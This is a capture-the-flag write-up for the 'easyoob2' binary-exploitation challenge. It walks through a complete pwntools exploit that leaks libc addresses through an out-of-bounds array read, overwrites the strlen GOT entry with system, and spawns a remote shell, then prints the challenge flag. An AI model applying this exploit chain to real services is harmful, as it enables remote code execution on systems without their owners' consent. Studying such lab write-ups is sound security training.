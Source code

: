 # easyoob2

It is nice to have a function that gives you the flag. But it's not so easy in real life.

Can you find a way to spawn a shell from exploiting the service?

MD5 (easyoob2.zip) = b62c87cd2b6c6240020f7cd5ad5167a4

Author: daniellimws

`nc challs.nusgreyhats.org 10526`

```
$ tree easyoob2
easyoob2
├── easyoob2
├── easyoob2.c
└── easyoob2.zip
$ checksec easyoob2
[*] 'easyoob2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO     # X
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000) # X
```

# Pwntools skeleton for i/o
I like to write functions that abstract away I/O interaction with the binary. Keep the definitions here in mind for later:
```python
from typing import Optional
from pwnscripts import *
context.binary = './easyoob2'
#r = context.binary.process()
r = remote("challs.nusgreyhats.org", 10526)

def cmd(typ: int,
        ind: Optional[int]=None,
        score: Optional[int]=None,
        name: Optional[bytes]=None,
        *, recv=True):
    s = b'%d' % typ
    if ind is not None: s += b' %d' % ind
    if name is not None:
        assert len(name) <= 3
        s += b' %s' % name
    if score is not None:
        assert score < 1<<32
        s += b' %d' % score
    r.sendlineafter(b'\n> ', s)
    if recv: return r.recvline()
```

# Top-level overview
`easyoob2` is a standard "find the libc version and ret2system" problem. In this case, the steps to solving the problem are:
1. leak two libc pointers
2. calculate the remote libc version
3. find the remote address of system
4. call `system(<user controlled data>)` somehow

Let's cover these steps one-by-one.
## Leaking libc
Unlike `easyoob`, the `entry leaderboard[20];` array is declared as a global variable in `easyoob2`. This puts the `leaderboard[]` array on the `.bss` section of the binary (open a disassembler to see this), which is located nearby to the [GOT table](https://blog.fxiao.me/got-plt/). The GOT holds the addresses of libc functions that we want to read (and later write to), so **there is some low value of** `i` **such that** `leaderboard[i] == &printf or &puts or &fgets or &strlen or...`

You can calculate the `leaderboard[]` index required to reach a specific libc function using `pwntools`:
```python
def lboard_ind_of(got_func: str) -> int:
    return (
        context.binary.got[got_func]
       -context.binary.symbols['leaderboard']
    )//8
```

And then, you can leak a libc function address by doing a few conversions on the output of a `handle_read()` command:
```python
def libc_func_addr(f: str):
    pos = lboard_ind_of(f)
    ls = cmd(1, pos).split(b' ') # call handle_read(..., pos)
    hi,lo = ls[1].ljust(4,b'\0'), p32(int(ls[-1]),signed=True)
    return unpack(lo+hi)
```

## Calculating the remote libc version (and getting the address of `system`)
Once upon a time, [I made a library for this](https://github.com/152334H/pwnscripts). Surprisingly enough, it still works:
```python
context.libc = context.libc_database.libc_find(
    {f:libc_func_addr(f) for f in ['puts', 'setvbuf']}
)
log.info('system: '+hex(context.libc.symbols['system']))
```
Upon execution:
```sh
[*] found libc! id: libc6_2.31-0ubuntu9.7_amd64
[*] system: 0x7f425f7e32c0
```
If you _don't_ have a premium fancy preinstalled setup, you can use the [link](https://libc.blukat.me/) greyhats provided to find the remote libc version. After that, you would serch for the address of `system()` using that libc id.

That works fine, but I like my software better.

## Calling `system`
Now for the slightly interesting part: how do we call `system("/bin/sh")`?

Unlike in `easyoob`, there is no (easy) way to edit the return pointers located at the call stack. For this specific problem, the GOT Table happens to be read+write (note `checksec` from beginning!), so we can make use of the `handle_write` command to replace a libc function with `system`.

This simplifies our decision making process into finding the best libc call site; looking for a function that accepts a user-controlled buffer as the first argument. **Conveinently**, the currently unused 3rd command, `handle_upperify`, has a line that does exactly just that: 
```c
char* name = leaderboard[cmd.pos].name;
int len = strlen(name);
```
So, the idea goes:
1. overwrite the GOT entry for `strlen` with the address of `system`
    ```python
    def write_word(ind: int, val: int):
        assert val < 1<<56
        hi,lo = val>>32, val&0xffffffff
        lo = u32(p32(lo), signed=True)
        hi = p32(hi)[:3]
        cmd(2, ind, lo, hi)
    write_word(lboard_ind_of('strlen'), context.libc.symbols['system'])
    ```
2. create a leaderboard entry with a name of `"sh;"`. This works because `system()` will check the `PATH` environment variable for the location of `sh`, much like a normal terminal.
3. call `handle_upperify`.

```python
cmd(2, 0, 0, b'sh;')
cmd(3, 0, recv=False)
r.interactive()
```

That's it.

# flag
`grey{0k_n0t_b4d_t1m3_t0_try_th3_h4rd3r_0n3s}`
